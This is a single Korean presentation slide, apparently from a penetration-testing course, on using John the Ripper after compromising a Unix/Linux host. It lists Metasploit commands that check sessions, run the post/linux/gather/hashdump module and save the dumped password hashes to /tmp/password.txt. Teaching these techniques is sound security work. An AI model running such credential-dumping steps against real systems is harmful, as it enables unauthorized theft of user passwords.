

# 유닉스/리눅스 기반 침투 이후 JtR 사용
Enter 입력 후 sessions -l 을 입력하여 세션 연결 확인

hashdump 모듈 사용
use post/linux/gather/hashdump
set session 1
exploit

요약 함수 덤프 결과를 /tmp/password.txt 파일에 저장
15